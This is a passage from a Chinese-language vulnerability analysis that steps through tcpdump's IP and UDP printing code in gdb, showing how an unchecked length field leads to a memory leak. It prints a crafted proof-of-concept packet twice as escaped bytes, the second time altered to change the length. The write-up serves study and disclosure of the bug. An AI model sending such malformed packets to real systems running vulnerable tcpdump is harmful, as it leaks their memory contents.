0020| 0xbfffe164 --> 0x80fa1fe --> 0x504455 ('UDP')
0024| 0xbfffe168 --> 0xb7a16094 --> 0x3de60045
0028| 0xbfffe16c --> 0x8233a20 --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Breakpoint 12, 0x08073e54 in ip_print ()
这个函数的第一个参数并不知道是什么意思，启动参数？？？第二个是一个结构体指针，这个结构体如下，有一个len字段
struct ip_print_demux_state {
const struct ip *ip;
const u_char *cp;
u_int len, off;
u_char nh;
int advance;
};
既然有长度字段，我们可以看看这个指针指向的数据是不是我们输入的数据帧
gdb-peda$ x/16x 0xbfffe18c
0xbfffe18c: 0xb7a16094 0xb7a160a8 0x0000e629 0x00004000
0xbfffe19c: 0xb7ffd311 0x00000001 0xb7a16094 0x00000014
0xbfffe1ac: 0x86bf0200 0x00000000 0x00000000 0xb7c2f2e5
0xbfffe1bc: 0x08164000 0x08235058 0x00000000 0xbfffe1f8
咦？对比了我们的Poc数据之后发现并没有一样，喵喵喵？？？
突然发现可能这只是个存储指针的地址，比如
arg[1]: 0xbfffe18c --> 0xb7a16094 --> 0x3de60045
这样就和我们输入的数据帧一样了
gdb-peda$ x/16x 0xb7a16094
0xb7a16094: 0x3de60045 0x00407ff3 0xc6301140 0x6801010a
0xb7a160a4: 0x0202020a 0x000d8e02 0xe800004b 0x00000012
0xb7a160b4: 0x51c61f00 0x24009735 0x6fdf7a8c 0x00450008
0xb7a160c4: 0x7ff33de6 0x11400040 0x010ac630 0x00000001
对比Poc的数据帧
\x00\x00\x00\x00\x00\x00\x00\x00\x8c\x7a\xdf\x6f\x08\x00(指针指向此处=>)\x45\x00\xe6\x3d\xf3\x7f\x40\x00\x40\x11\x30\xc6\x0a\x01\x01\x68\x0a\x02\x02\x02\x02\x8e\x0d\x00\x4b\x00\x00\xe8\x12\x00\x00\x00\x00\x1f\xc6\x51\x35\x97\x00\x24\x8c\x7a\xdf\x6f\x08\x00\x45\x00\xe6\x3d\xf3\x7f\x40\x00\x40\x11\x30\xc6\x0a\x01\x01
接下来通过对结构体的nh字段判断来选择case
switch (ipds->nh)
因为这个结构体里面还有结构体，长度不好（想）计算，所以直接通过调试来看这个值是多少
[----------------------------------registers-----------------------------------]
EAX: 0x11
EBX: 0x11
ECX: 0x8235bac ("4:40.665021 IP truncated-ip - 58880 bytes missing! (tos 0x0, ttl 64, id 62335, offset 0, flags [DF], proto UDP (17), length 58941, bad cksum 30c6 (->49c3)!)\n")
EDX: 0x11
ESI: 0x0
EDI: 0x8231d00 --> 0x20004644 ('DF')
EBP: 0xbfffe148 --> 0xbfffe1c8 --> 0xbfffe1f8 --> 0xbfffe258 --> 0xbfffe288 --> 0xbfffe2b8 (--> ...)
ESP: 0xbfffe110 --> 0x0
EIP: 0x807334a (<ip_print_demux+40>: cmp eax,0x84)
EFLAGS: 0x200246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
0x8073340 <ip_print_demux+30>: mov eax,DWORD PTR [ebp-0x30]
0x8073343 <ip_print_demux+33>: movzx eax,BYTE PTR [eax+0x10]
0x8073347 <ip_print_demux+37>: movzx eax,al
=> 0x807334a <ip_print_demux+40>: cmp eax,0x84
0x807334f <ip_print_demux+45>: ja 0x8073862 <ip_print_demux+1344>
0x8073355 <ip_print_demux+51>: mov eax,DWORD PTR [eax*4+0x8108088]
0x807335c <ip_print_demux+58>: jmp eax
0x807335e <ip_print_demux+60>: mov eax,DWORD PTR [ebp-0x30]
[------------------------------------stack-------------------------------------]
0000| 0xbfffe110 --> 0x0
0004| 0xbfffe114 --> 0x8231d00 --> 0x20004644 ('DF')
0008| 0xbfffe118 --> 0xbfffe18c --> 0xb7a16094 --> 0x3de60045
0012| 0xbfffe11c --> 0x8233a20 --> 0x0
0016| 0xbfffe120 --> 0x0
0020| 0xbfffe124 --> 0x8231d00 --> 0x20004644 ('DF')
0024| 0xbfffe128 --> 0xbfffe1c8 --> 0xbfffe1f8 --> 0xbfffe258 --> 0xbfffe288 --> 0xbfffe2b8 (--> ...)
0028| 0xbfffe12c --> 0xb7c65696 (<__printf+38>: add esp,0x1c)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x0807334a in ip_print_demux ()
有个小技巧，switch在判断的时候，会把判断的值放在eax寄存器里，然后各种cmp和jmp，挨得贼近，一眼就可以看出来
0x11是17，找到其宏定义
#ifndef IPPROTO_UDP
#define IPPROTO_UDP 17 /* user datagram protocol */
#endif
再找到对应的case
case IPPROTO_UDP:
/* pass on the MF bit plus the offset to detect fragments */
udp_print(ipds->cp, ipds->len, (const u_char *)ipds->ip,
ipds->off & (IP_MF|IP_OFFMASK));
break;
这个函数传进去的参数里有一个字段是ipds->len，我们在调试下查看具体数据
[----------------------------------registers-----------------------------------]
EAX: 0xb7a160a8 --> 0xd8e02
EBX: 0x0
ECX: 0xb7a16094 --> 0x3de60045
EDX: 0xe629
ESI: 0x0
EDI: 0x8231d00 --> 0x20004644 ('DF')
EBP: 0xbfffe148 --> 0xbfffe1c8 --> 0xbfffe1f8 --> 0xbfffe258 --> 0xbfffe288 --> 0xbfffe2b8 (--> ...)
ESP: 0xbfffe100 --> 0xb7a160a8 --> 0xd8e02
EIP: 0x807353b (<ip_print_demux+537>: call 0x80bbe06 <udp_print>)
EFLAGS: 0x200246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
0x8073538 <ip_print_demux+534>: push ecx
0x8073539 <ip_print_demux+535>: push edx
0x807353a <ip_print_demux+536>: push eax
=> 0x807353b <ip_print_demux+537>: call 0x80bbe06 <udp_print>
0x8073540 <ip_print_demux+542>: add esp,0x10
0x8073543 <ip_print_demux+545>: jmp 0x80738fd <ip_print_demux+1499>
0x8073548 <ip_print_demux+550>: mov eax,DWORD PTR [ebp-0x30]
0x807354b <ip_print_demux+553>: mov eax,DWORD PTR [eax+0xc]
Guessed arguments:
arg[0]: 0xb7a160a8 --> 0xd8e02
arg[1]: 0xe629
arg[2]: 0xb7a16094 --> 0x3de60045
arg[3]: 0x0
[------------------------------------stack-------------------------------------]
0000| 0xbfffe100 --> 0xb7a160a8 --> 0xd8e02
0004| 0xbfffe104 --> 0xe629
0008| 0xbfffe108 --> 0xb7a16094 --> 0x3de60045
0012| 0xbfffe10c --> 0x0
0016| 0xbfffe110 --> 0x0
0020| 0xbfffe114 --> 0x8231d00 --> 0x20004644 ('DF')
0024| 0xbfffe118 --> 0xbfffe18c --> 0xb7a16094 --> 0x3de60045
0028| 0xbfffe11c --> 0x8233a20 --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Breakpoint 15, 0x0807353b in ip_print_demux ()
四个参数，可以看到ipds->len是0xe629，到这里其实就已经很能说明问题了，这里直接获取长度，没有进行校验，然后一层层传进去，导致的内存信息泄露
arg[0]: 0xb7a160a8 --> 0xd8e02
arg[1]: 0xe629
arg[2]: 0xb7a16094 --> 0x3de60045
arg[3]: 0x0
以上就是该漏洞的完整触发过程
但是呢，这里只是Crash了，我们是不是可以弄一个特殊点的数据把它弄崩溃，可以尝试下
不过这里有个问题先要解决，为什么长度是0xe629，这个值并不在我们的Poc里呀？？？
所以仔细跟一波，才能确定长度的字段在哪里（都是刚才偷懒~~~）
找到内存中数据存储的位置，整个输出来
gdb-peda$ x/20x 0xb7a16094
0xb7a16094: 0x3de60045 0x00407ff3 0xc6301140 0x6801010a
0xb7a160a4: 0x0202020a 0x000d8e02 0xe800004b 0x00000012
0xb7a160b4: 0x51c61f00 0x24009735 0x6fdf7a8c 0x00450008
0xb7a160c4: 0x7ff33de6 0x11400040 0x010ac630 0x00000001
0xb7a160d4: 0x00000000 0x00000000 0x00000000 0x00000000
咦？还是没有，这就搞的很尴尬呀，此处有一个礼貌又不失尴尬的微笑
那就手动跟一波代码
0x0807351c <+506>: mov eax,DWORD PTR [eax+0xc] // eax = 0x4000
0x0807351f <+509>: and eax,0x3fffb // eax = 0x0
0x08073524 <+514>: mov ebx,eax // ebx = eax = 0x00
0x08073526 <+516>: mov eax,DWORD PTR [ebp-0x30] // eax = 0xbfffe18c --> 0xb7a18084 --> 0x3de60045
0x08073529 <+519>: mov ecx,DWORD PTR [eax] // ecx = 0xb7a18084 --> 0x3de60045
0x0807352b <+521>: mov eax,DWORD PTR [ebp-0x30] // eax = 0xbfffe18c --> 0xb7a18084 --> 0x3de60045
0x0807352e <+524>: mov edx,DWORD PTR [eax+0x8] // edx = 0xe629
0x08073531 <+527>: mov eax,DWORD PTR [ebp-0x30] // eax = 0xbfffe18c --> 0xb7a18084 --> 0x3de60045
0x08073534 <+530>: mov eax,DWORD PTR [eax+0x4] // eax = 0xb7a18098 --> 0xd8e02
0x08073537 <+533>: push ebx
0x08073538 <+534>: push ecx
0x08073539 <+535>: push edx
0x0807353a <+536>: push eax
=> 0x0807353b <+537>: call 0x80bbe06 <udp_print>
终于发现问题了，其实数据并不在这里
gdb-peda$ x/20x $ecx
0xb7a18084: 0x3de60045 0x00407ff3 0xc6301140 0x6801010a
0xb7a18094: 0x0202020a 0x000d8e02 0xe800004b 0x00000012
0xb7a180a4: 0x51c61f00 0x24009735 0x6fdf7a8c 0x00450008
0xb7a180b4: 0x7ff33de6 0x11400040 0x010ac630 0x00000001
0xb7a180c4: 0x00000000 0x00000000 0x00000000 0x00000000
而是
gdb-peda$ x/20x $eax+0x08
0xbfffe194: 0x0000e629 0x00004000 0xb7c85011 0x00000001
0xbfffe1a4: 0xb7a18084 0x00000014 0xe05a4b00 0x00000000
0xbfffe1b4: 0xbfffe254 0xb7c2f2e5 0x08164000 0x08235058
0xbfffe1c4: 0x00000000 0xbfffe1f8 0x0806abd9 0x08233a20
0xbfffe1d4: 0xb7a18084 0x0000003d 0xb7dce000 0x0000002a
一开始我也没有弄懂，梳理一下，首先ebp-0x30这个地址存储的是一个指针，这个指针指向的数据是我们输入的数据，然而长度数据是从这个指针往下偏移0x08字节的位置取出的
开始猜，这里应该是在传进来之前对len字段做了减去某些头部数据的处理了，猜测长度应该是\x3d\xe6，我们来验证一下，我们把长度改为\x3e\xe6，加一个字节
"\x00\x00\x00\x00\x00\x00\x00\x00\x8c\x7a\xdf\x6f\x08\x00\x45\x00\xe6(这里=>)\x3e\xf3\x7f\x40\x00\x40\x11\x30\xc6\x0a\x01\x01\x68\x0a\x02\x02\x02\x02\x8e\x0d\x00\x4b\x00\x00\xe8\x12\x00\x00\x00\x00\x1f\xc6\x51\x35\x97\x00\x24\x8c\x7a\xdf\x6f\x08\x00\x45\x00\xe6\x3d\xf3\x7f\x40\x00\x40\x11\x30\xc6\x0a\x01\x01"
再次调试，可以发现长度参数加一了
[----------------------------------registers-----------------------------------]
EAX: 0xb7a160a8 --> 0xd8e02
EBX: 0x0
ECX: 0xb7a16094 --> 0x3ee60045
EDX: 0xe62a
ESI: 0x0
EDI: 0x8231d00 --> 0x20004644 ('DF')
EBP: 0xbfffe148 --> 0xbfffe1c8 --> 0xbfffe1f8 --> 0xbfffe258 --> 0xbfffe288 --> 0xbfffe2b8 (--> ...)
ESP: 0xbfffe0fc --> 0x8073540 (<ip_print_demux+542>: add esp,0x10)
EIP: 0x80bbe06 (<udp_print>: push ebp)
EFLAGS: 0x200246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
0x80bbe03 <udpipaddr_print+553>: pop edi
0x80bbe04 <udpipaddr_print+554>: pop ebp
0x80bbe05 <udpipaddr_print+555>: ret
=> 0x80bbe06 <udp_print>: push ebp
0x80bbe07 <udp_print+1>: mov ebp,esp
0x80bbe09 <udp_print+3>: push edi
0x80bbe0a <udp_print+4>: push esi
0x80bbe0b <udp_print+5>: push ebx
[------------------------------------stack-------------------------------------]
0000| 0xbfffe0fc --> 0x8073540 (<ip_print_demux+542>: add esp,0x10)
0004| 0xbfffe100 --> 0xb7a160a8 --> 0xd8e02
0008| 0xbfffe104 --> 0xe62a
0012| 0xbfffe108 --> 0xb7a16094 --> 0x3ee60045
0016| 0xbfffe10c --> 0x0
0020| 0xbfffe110 --> 0x0
0024| 0xbfffe114 --> 0x8231d00 --> 0x20004644 ('DF')
0028| 0xbfffe118 --> 0xbfffe18c --> 0xb7a16094 --> 0x3ee60045
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Breakpoint 5, 0x080bbe06 in udp_print ()
不过在之后的测试中并没有让它崩溃，只是一直泄露数据，这个还有待学习
那么该漏洞的分析就到此了